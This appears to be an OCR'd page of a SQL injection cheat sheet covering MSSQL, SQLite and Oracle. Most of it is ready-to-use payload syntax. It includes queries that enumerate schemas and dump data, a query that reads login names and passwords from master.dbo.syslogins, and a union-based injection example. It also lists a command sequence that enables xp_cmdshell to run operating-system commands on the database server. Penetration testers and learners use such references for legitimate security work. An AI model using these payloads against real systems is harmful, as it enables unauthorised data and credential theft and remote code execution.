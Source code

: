 -----

#### MSSQL

- DB name
  - `DB_name({num})` num start from 1
  - `SELECT name FROM master ..sysdatabases`
  - `SELECT name FROM master.dbo.sysdatabases`
- Table name
  - `SELECT name FROM {db_name}..sysobjects`
- Column name
  - `SELECT name FROM {db_name} ..syscolumns`
  - `SELECT name FROM syscolumns WHERE id=(SELECT id FROM {db_name}..sysobjects WHERE name = '{table_name}')--`
- Select data
  - `SELECT TOP 1 concat({data1},':',{data2}) FROM {table_name}`
  - `SELECT TOP 1 concat({data1},':',{data2}) FROM {db_name}.dbo.{table_name}`
  - `WHERE {data1}>{num}` Choose under data (Dependency up)
- DB admin
  - `SELECT concat(user,',',password) FROM master.dbo.syslogins` 
- Error Injection
  - `CONVERT(int,{command})`
- RCE
  - `SELECT NULL;{command}`
  - `EXEC sp_configure 'show advanced options' , 1`
  - `RECONFIGURE`
  - `EXEC sp_configure 'xp_cmdshell' , 1`
  - `RECONFIGURE`
  - `exec xp_cmdshell '{command}'`
- https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/

-----

#### SQLite

* Version
  - `sqlite_version()`
* Table name
  - `SELECT name FROM sqlite_master WHERE type='table'`
* Column Name
  - `SELECT sql FROM sqlite_master WHERE type='table'`
* Select Data
  - `SELECT {column_name} FROM {table_name}`

-----

### Oracle Injection
- Concatenation String
    - `'aaa'||'bbb'`
- Sub string
    - `SUBSTR('ABC',1,1)`
        - Return `A`
    - `SUBSTR('ABC',2,1)`
        - Return `B`
- Union based
    - Column counts, Data type must be same (`NULL`)
    - Select must have `FROM`, if no item can FROM, use `dual`
    - eg. `' UNION SELECT NULL,NULL,3 FROM dual --`
- Current Username
    - `SELECT USER FROM dual`
- Dump DB (Schema) Names
    - `SELECT DISTINCT OWNER FROM ALL_TABLES` (return multiple rows)
    - Common (Normal DB) : `APEX_040200`, `MDSYS`, `SEQUELIZE`, `OUTLN`, `CTXSYS`, `OLAPSYS`, `FLOWS_FILES`, `SYSTEM`, `DVSYS`, `AUDSYS`, `DBSNMP`, `GSMADMIN_INTERNAL`, `OJVMSYS`, `ORDSYS`, `APPQOSSYS`, `XDB`, `ORDDATA`, `SYS`, `WMSYS`, `LBACSYS`